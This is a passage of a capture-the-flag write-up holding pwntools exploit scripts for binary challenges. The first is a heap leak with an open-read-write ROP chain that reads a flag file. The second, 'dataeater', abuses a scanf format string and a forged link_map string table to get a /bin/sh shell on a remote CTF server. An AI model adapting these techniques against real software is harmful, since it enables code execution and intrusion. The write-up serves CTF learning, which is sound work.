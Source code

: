 ```python
free(1)
add(2, 0x18, p64(0x100)+p64(environ))
show(0)
stack_leak = get_leak(8) - 0x140
leak("stack leak", stack_leak)
edit(2,p64(0x100)+p64(stack_leak))

flag_str = stack_leak + 0x8*(19+8)
orw = p64(pop_rdi+1)*8
# open 
orw += p64(pop_rdi) + p64(flag_str) + p64(pop_rsi) + p64(0) + p64(open_addr)
# read 
orw += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_str) + p64(pop_rdx) + p64(0x100) + p64(read_addr)
# write 
orw += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(flag_str) + p64(pop_rdx) + p64(0x100) + p64(write_addr)
orw += "./flag.txt\x00"

edit(0, orw)
p.sendlineafter("command: ","E")        

p.interactive()

```

## dataeater

可以控制scanf的参数，不能rop。这样可以写任意写buf和link_map。覆盖link_map->l_info[strtab]为buf，从而在buf伪造system字符串，使其搜索system地址。

```python
from pwn import *
leak = lambda name,addr: log.success('{0}\t--->\t{1}'.format(name, hex(addr)))

binary = './dataeater'
libc = "/lib/x86_64-linux-gnu/libc.so.6"
context.terminal = ['tmux', 'splitw', '-h']
context.binary = binary
context.log_level='debug'
# p = process(binary)
elf = ELF(binary, checksec=False)
libc = ELF(libc, checksec=False)

st_name = 0x37
system_str = elf.sym['buf'] + 0x10
def pwn(k):
  print(k)
  try:
    r = remote('mc.ax', 31869)
    # r = process(binary)
    # gdb.attach(r)
    r.sendline('%s%{}$s'.format(k))
    # r.sendline("a a")
    r.sendline(b'/bin/sh\0' + p64(system_str - st_name) + b'system\0 ' + p64(0)*13 + p64(elf.sym['buf'])[:-1])

    r.interactive()
    return True
  except EOFError:
    return False
  finally:
    r.close()
```